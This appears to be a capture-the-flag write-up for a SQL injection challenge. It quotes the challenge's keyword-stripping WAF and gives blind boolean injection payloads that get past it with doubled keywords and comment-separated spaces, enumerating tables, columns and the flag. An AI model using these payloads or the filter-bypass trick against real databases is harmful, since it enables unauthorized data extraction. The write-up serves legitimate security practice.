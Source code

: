 url:https://sqli.chal.h4ck3r.quest/

Skills: SQL injection / Information Leak

Hints:
You can leak the (almost full) source code from it's debug page, so just try to trigger some 500.
你其實可以從它的 debug 頁面中挖出（幾乎全部的）原始碼，所以該去試著戳出 500 了


https://sqli.chal.h4ck3r.quest






WAF:
str.gsub(/union|select|where|and|or| |=/i, '')



* example
select * from users where username="fjksdfjsd" or ascii(mid((SELECT column_name FROM information_schema.columns WHERE table_name LIKE 0x7573657273
 LIMIT 0,1),1,1)) > 0





* get table name

```
/**/oorr/**/ascii(mid((SESELECTLECT/**/table_name/**/FROM/**/infoorrmation_schema.tables/**/WHWHEREERE/**/table_schema/**/LIKE/**/database()/**/LIMIT/**/0,1),1,1))/**/>/**/0#
```

h3y_here_15_the_flag_y0u_w4nt,meow,flag

* get column count: 

```
/**/oorr/**/(SESELECTLECT/**/COUNT(column_name)/**/FROM/**/infoorrmation_schema.columns/**/WHWHEREERE/**/table_name/**/LIKE/**/0x6833795F686572655F31355F7468655F666C61675F7930755F77346E742C6D656F772C666C6167)/**/>/**/1#
```


* get column Name:

```
/**/oorr/**/ascii(mid((SESELECTLECT/**/column_name/**/FROM/**/infoorrmation_schema.columns/**/WHWHEREERE/**/table_schema/**/LIKE/**/database()/**/aandnd/**/table_name/**/LIKE/**/0x6833795F686572655F31355F7468655F666C61675F7930755F77346E742C6D656F772C666C6167/**/LIMIT/**/0,1),1,1))/**/>/**/0#
```

* get flag:

```
/**/oorr/**/ascii(mid((SESELECTLECT/**/i_4m_th3_fl4g/**/FROM/**/`h3y_here_15_the_flag_y0u_w4nt,meow,flag`/**/LIMIT/**/0,1),1,1))/**/>/**/0#
```






